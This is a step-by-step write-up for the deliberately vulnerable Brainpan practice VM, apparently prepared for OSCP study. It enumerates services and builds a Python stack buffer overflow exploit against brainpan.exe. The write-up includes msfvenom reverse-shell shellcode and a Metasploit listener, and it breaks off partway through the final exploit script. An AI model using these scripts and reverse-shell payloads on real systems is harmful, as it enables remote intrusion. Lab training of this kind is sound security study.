

[TOC]


# OSCP VM Walkthrough

## Brainpan 

1. **Discover IP**

**Nmap**

```
# nmap -sn 192.168.101.0/24  
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-22 03:09 EDT
Nmap scan report for 192.168.101.113
Host is up (0.0014s latency).
MAC Address: 00:0C:29:D0:93:A3 (VMware)
Nmap scan report for 192.168.101.103
Host is up (0.0011s latency).
MAC Address: 00:0C:29:57:A0:26 (VMware)
```

**Netdiscover**

```sh
$ netdiscover -r 172.16.66.0/24
Currently scanning: Finished!   |   Screen View: Unique Hosts                                                       
                                                                                                                     
 47 Captured ARP Req/Rep packets, from 11 hosts.   Total size: 2820                                                  
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
                                                
192.168.101.103 00:0c:29:57:a0:26      1      60  VMware, Inc.
192.168.101.113 00:0c:29:d0:93:a3      1      60  VMware, Inc.                                           
```

2. **Enumerate service**

**Nmap**

```sh
$ nmap -sV 192.168.101.113                             
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-22 02:55 EDT
Nmap scan report for 192.168.101.101
Host is up (0.0020s latency).
Not shown: 998 closed ports
PORT      STATE SERVICE VERSION
9999/tcp  open  abyss?
10000/tcp open  http    SimpleHTTPServer 0.6 (Python 2.7.3)
```

OR 

```
nmap -sT -v -T4 -Pn -n 192.168.101.103    
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-10-22 03:04 EDT
Initiating Connect Scan at 03:04
Scanning 192.168.101.101 [1000 ports]
Discovered open port 9999/tcp on 192.168.101.101
Discovered open port 10000/tcp on 192.168.101.101
Completed Connect Scan at 03:04, 0.07s elapsed (1000 total ports)
Nmap scan report for 192.168.101.101
Host is up (0.00068s latency).
Not shown: 998 closed ports
PORT      STATE SERVICE
9999/tcp  open  abyss
10000/tcp open  snet-sensor-mgmt

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.14 seconds
```

3. **Check out if anything responds on port 9999**

**Netcat**

```shell
$ nc 192.168.101.101 9999             
_|                            _|                                        
_|_|_|    _|  _|_|    _|_|_|      _|_|_|    _|_|_|      _|_|_|  _|_|_|  
_|    _|  _|_|      _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|    _|  _|        _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|_|_|    _|          _|_|_|  _|  _|    _|  _|_|_|      _|_|_|  _|    _|
                                            _|                          
                                            _|

[________________________ WELCOME TO BRAINPAN _________________________]
                          ENTER THE PASSWORD                              

                          >> 
```

4.  **Let’s take a closer look in a browser**


5. **Find other directories**

**Dirb**

```sh
$ dirb http://192.168.101.113:10000/                                                                                           130 ⨯

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Sun Oct 24 02:30:56 2021
URL_BASE: http://192.168.101.113:10000/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.101.113:10000/ ----
+ http://192.168.101.113:10000/bin (CODE:301|SIZE:0)                                                                                  
+ http://192.168.101.113:10000/index.html (CODE:200|SIZE:215)                                                                         
                                                                                                                                      
-----------------
END_TIME: Sun Oct 24 02:31:16 2021
DOWNLOADED: 4612 - FOUND: 2

```


**Nikto**

```sh
$ nikto -host http://192.168.101.113:10000
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          192.168.101.113
+ Target Hostname:    192.168.101.113
+ Target Port:        10000
+ Start Time:         2021-10-24 02:31:09 (GMT-4)
---------------------------------------------------------------------------
+ Server: SimpleHTTP/0.6 Python/2.7.3
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ SimpleHTTP/0.6 appears to be outdated (current is at least 1.2)
+ Python/2.7.3 appears to be outdated (current is at least 2.7.8)
+ OSVDB-3268: /bin/: Directory indexing found.
+ OSVDB-3092: /bin/: This might be interesting...
+ ERROR: Error limit (20) reached for host, giving up. Last error: invalid HTTP response
+ Scan terminated:  19 error(s) and 7 item(s) reported on remote host
+ End Time:           2021-10-24 02:31:45 (GMT-4) (36 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```


6. Browse bin folder


6. Download brainpan.exe

   ```sh
   $ wget http://192.168.101.113:10000/bin/brainpan.exe
   --2021-10-24 02:36:57--  http://192.168.101.113:10000/bin/brainpan.exe
   Connecting to 192.168.101.113:10000... connected.
   HTTP request sent, awaiting response... 200 OK
   Length: 21190 (21K) [application/x-msdos-program]
   Saving to: ‘brainpan.exe’
   
   brainpan.exe                      100%[============================================================>]  20.69K  --.-KB/s    in 0.003s  
   
   2021-10-24 02:36:57 (6.71 MB/s) - ‘brainpan.exe’ saved [21190/21190]
   ```

   

7. **Let's see what we can learn from strings:**

**Strings**

```sh
$ strings brainpan.exe
!This program cannot be run in DOS mode.
.text
`.data
.rdata
@.bss
.idata
[^_]
AAAA
AAAA
AAAA
AAAA
AAAA
AAAA
AAAA
AAAA
[^_]
[get_reply] s = [%s]
[get_reply] copied %d bytes to buffer
shitstorm
_|                            _|                                        
_|_|_|    _|  _|_|    _|_|_|      _|_|_|    _|_|_|      _|_|_|  _|_|_|  
_|    _|  _|_|      _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|    _|  _|        _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|_|_|    _|          _|_|_|  _|  _|    _|  _|_|_|      _|_|_|  _|    _|
                                            _|                          
                                            _|
[________________________ WELCOME TO BRAINPAN _________________________]
                          ENTER THE PASSWORD                              
                          >> 
                          ACCESS DENIED
                          ACCESS GRANTED
[+] initializing winsock...
[!] winsock init failed: %d
done.
```

I'll guess and say "**shitstorm**" is the password.

7. **Let's see what we can learn from file:**

```sh
$ file brainpan.exe 
brainpan.exe: PE32 executable (console) Intel 80386 (stripped to external PDB), for MS Windows
```

8. Let's take our password and pipe it with netcat:

```sh
$ echo shitstorm | nc 192.168.101.101 9999                                  
_|                            _|                                        
_|_|_|    _|  _|_|    _|_|_|      _|_|_|    _|_|_|      _|_|_|  _|_|_|  
_|    _|  _|_|      _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|    _|  _|        _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|_|_|    _|          _|_|_|  _|  _|    _|  _|_|_|      _|_|_|  _|    _|
                                            _|                          
                                            _|

[________________________ WELCOME TO BRAINPAN _________________________]
                          ENTER THE PASSWORD                              

                          >>                           ACCESS GRANTED         
```

9. **Crashing the application** 

- Find the exact number of bytes before crash

- Run Immunity Debugger and attached brainspan.exe

- Run Immunity Debugger as adminsitrator

- Attach brainspan.exe in Immunity Debugger and click play button to start running status

- Download brainspan.exe in Windows machine

- Run brainspan.exe as administrator


- Creating the initial python fuzzer to find out what amount of bytes will cause the application to crash:

bof_fuzz.py

```python
#!/usr/bin/python
import sys, socket
from time import sleep

buffer = "A" * 100

while True:
    try:
            s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
            s.connect(('192.168.101.103',9999))

            s.send(('TRUN /.:/' + buffer))
            s.close()
            sleep(1)
            buffer = buffer + "A"*100
    except:
            print "Fuzzing crashed at %s bytes" % str(len(buffer))
            sys.exit()
```


```sh
$ ./bof_fuzz.py 
Fuzzing crashed at 1000 bytes
```


10. **Identifying the EIP offset**

Restart debug Immunity Debugger

1. Goto Debug > Restart
2. And click play button   


```sh
$ locate pattern_create
/usr/bin/msf-pattern_create
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb
                                                                                                                      
┌──(root💀kali)-[/home/kali]
└─# /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2B
```

OR 

```sh
$ msf-pattern_create -l 1000
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2B
```

- Adding the pattern to a new script, instead of sending the “A” characters:

**bof_offset.py**

```python
#!/usr/bin/python
import sys, socket

offset = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9Ak0Ak1Ak2Ak3Ak4Ak5Ak6Ak7Ak8Ak9Al0Al1Al2Al3Al4Al5Al6Al7Al8Al9Am0Am1Am2Am3Am4Am5Am6Am7Am8Am9An0An1An2An3An4An5An6An7An8An9Ao0Ao1Ao2Ao3Ao4Ao5Ao6Ao7Ao8Ao9Ap0Ap1Ap2Ap3Ap4Ap5Ap6Ap7Ap8Ap9Aq0Aq1Aq2Aq3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4Aw5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6Bc7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg8Bg9Bh0Bh1Bh2B"

try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(('192.168.101.103',9999))

        s.send(('TRUN /.:/' + offset))
        s.close()

except:
        print "Error connecting to server!"
        sys.exit()
```


```sh
$ ./bof_offset.py 
```


- This time, EIP was overwritten with “**32724131**”


- Using the msf-pattern_offset tool to calculate the exact offset, which is **515**

```sh
$ locate pattern_offset
/usr/bin/msf-pattern_offset
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb
                                                                                                                 
┌──(root💀kali)-[/home/kali]
└─# /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 32724131
[*] Exact match at offset 515
```

OR 

```
# msf-pattern_offset -l 1000 -q 32724131
[*] Exact match at offset 515
```


Restart debug Immunity Debugger

1. Goto Debug > Restart
2. And click play button   

Modifying script to override EIP with “B” characters to test this last step

bof_eip.py

```python
#!/usr/bin/python
import sys, socket

shellcode = "A" * 515 + "B" * 4 

try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(('192.168.101.103',9999))

        s.send(('TRUN /.:/' + shellcode))
        s.close()
except:
        print "Error connecting to server!"
        sys.exit()
```


```sh
$ ./bof_eip.py       
```


- As expected, the EIP registry was overwritten with the four “B” characters that were sent by the script:


**Testing for bad characters**

Restart debug Immunity Debugger

1. Goto Debug > Restart

2. And click play button   

Generate a list of bad characters in bash:

```sh
$ for i in {1..255}; do printf "\\\x%02x" $i; done; echo -e "\r"
\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff
```


badchars

```
badchars =( "\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

```


**bof_badchars.py**

```python
#!/usr/bin/python
import sys, socket

badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

shellcode = "A" * 515 + "B" * 4 + badchars

try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(('192.168.101.103',9999))

        s.send(('TRUN /.:/' + shellcode))
        s.close()
except:
        print "Error connecting to server!"
        sys.exit()
```


```
$ ./bof_badchars.py
```


After following the ESP register to the memory dump, it looks like all the characters made it into ESP, therefore no bad characters are present, apart from x00 which is always considered a bad character


**Finding a JMP ESP return address**


```sh
# locate nasm_shell    
/usr/bin/msf-nasm_shell
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
                                                                                                                      
┌──(root💀kali)-[/home/kali]
└─# /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
nasm > jmp esp
00000000  FFE4              jmp esp
nasm > Interrupt: use the 'exit' command to quit
nasm > exit
```

Restart debug Immunity Debugger

1. Goto Debug > Restart

2. And click play button   


```
!mona modules
```


```
!mona find -s "\xff\xe4" -m brainpan.exe
```


311712F3

Restart debug Immunity Debugger

1. Goto Debug > Restart

2. Enter expression to follow

   


311712F3

bof_mona.py

```python
#!/usr/bin/python
import sys, socket

#esp return address = 311712F3

shellcode = "A" * 515 + "\xF3\x12\x17\x31"  

try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(('192.168.101.103',9999))

        s.send(('TRUN /.:/' + shellcode))
        s.close
except:
        print "Error connecting to server!"
        sys.exit ()

```

- Now that have verified our jump code we can add the payload to get our shell using msfvenom. We will first test the exploit on our local Windows machine.





Metasploit

```
msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/shell_reverse_tcp 
payload => windows/shell_reverse_tcp
msf6 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------

Payload options (windows/shell_reverse_tcp):

Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.101.116  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf6 exploit(multi/handler) > set lhost 192.168.101.116 
lhost => 192.168.101.116
msf6 exploit(multi/handler) > set lport 4444
lport => 4444
msf6 exploit(multi/handler) > set exitfunc thread
exitfunc => thread
msf6 exploit(multi/handler) > options 

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/shell_reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.101.116  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target

msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.101.116:4444 
```


**Generating and adding the shellcode**

- Windows shell reverse tcp

```sh
$ msfvenom -p windows/shell_reverse_tcp 172.16.213.134 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "\x00" >shellcode 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of c file: 1500 bytes
                                                                                                                      
┌──(root💀kali)-[/home/kali/my_tools/buffer_overflow]
└─# cat shellcode             
unsigned char buf[] = 
"\xdb\xdb\xd9\x74\x24\xf4\xb8\xc9\x19\x2d\xfd\x5e\x31\xc9\xb1"
"\x52\x31\x46\x17\x03\x46\x17\x83\x0f\x1d\xcf\x08\x73\xf6\x8d"
"\xf3\x8b\x07\xf2\x7a\x6e\x36\x32\x18\xfb\x69\x82\x6a\xa9\x85"
"\x69\x3e\x59\x1d\x1f\x97\x6e\x96\xaa\xc1\x41\x27\x86\x32\xc0"
"\xab\xd5\x66\x22\x95\x15\x7b\x23\xd2\x48\x76\x71\x8b\x07\x25"
"\x65\xb8\x52\xf6\x0e\xf2\x73\x7e\xf3\x43\x75\xaf\xa2\xd8\x2c"
"\x6f\x45\x0c\x45\x26\x5d\x51\x60\xf0\xd6\xa1\x1e\x03\x3e\xf8"
"\xdf\xa8\x7f\x34\x12\xb0\xb8\xf3\xcd\xc7\xb0\x07\x73\xd0\x07"
"\x75\xaf\x55\x93\xdd\x24\xcd\x7f\xdf\xe9\x88\xf4\xd3\x46\xde"
"\x52\xf0\x59\x33\xe9\x0c\xd1\xb2\x3d\x85\xa1\x90\x99\xcd\x72"
"\xb8\xb8\xab\xd5\xc5\xda\x13\x89\x63\x91\xbe\xde\x19\xf8\xd6"
"\x13\x10\x02\x27\x3c\x23\x71\x15\xe3\x9f\x1d\x15\x6c\x06\xda"
"\x5a\x47\xfe\x74\xa5\x68\xff\x5d\x62\x3c\xaf\xf5\x43\x3d\x24"
"\x05\x6b\xe8\xeb\x55\xc3\x43\x4c\x05\xa3\x33\x24\x4f\x2c\x6b"
"\x54\x70\xe6\x04\xff\x8b\x61\x87\x10\x46\xf7\xbf\x12\x68\xe9"
"\x63\x9a\x8e\x63\x8c\xca\x19\x1c\x35\x57\xd1\xbd\xba\x4d\x9c"
"\xfe\x31\x62\x61\xb0\xb1\x0f\x71\x25\x32\x5a\x2b\xe0\x4d\x70"
"\x43\x6e\xdf\x1f\x93\xf9\xfc\xb7\xc4\xae\x33\xce\x80\x42\x6d"
"\x78\xb6\x9e\xeb\x43\x72\x45\xc8\x4a\x7b\x08\x74\x69\x6b\xd4"
"\x75\x35\xdf\x88\x23\xe3\x89\x6e\x9a\x45\x63\x39\x71\x0c\xe3"
"\xbc\xb9\x8f\x75\xc1\x97\x79\x99\x70\x4e\x3c\xa6\xbd\x06\xc8"
"\xdf\xa3\xb6\x37\x0a\x60\xd6\xd5\x9e\x9d\x7f\x40\x4b\x1c\xe2"
"\x73\xa6\x63\x1b\xf0\x42\x1c\xd8\xe8\x27\x19\xa4\xae\xd4\x53"
"\xb5\x5a\xda\xc0\xb6\x4e";
```

```
msfvenom -p windows/shell_reverse_tcp LHOST=172.16.213.142 IP LPORT=4444 EXITFUNC=thread -f c -e x86/shikata_ga_nai -a x86 -b "\x00"
```


bof_shellcode.py

```
#!/usr/bin/python
import sys, socket

#esp return address = 311712F3

overflow = ("\xbf\xed\x4e\xde\x0b\xda\xc6\xd9\x74\x24\xf4\x5d\x33\xc9\xb1"
"\x52\x31\x7d\x12\x03\x7d\x12\x83\x28\x4a\x3c\xfe\x4e\xbb\x42"
"\x01\xae\x3c\x23\x8b\x4b\x0d\x63\xef\x18\x3e\x53\x7b\x4c\xb3"
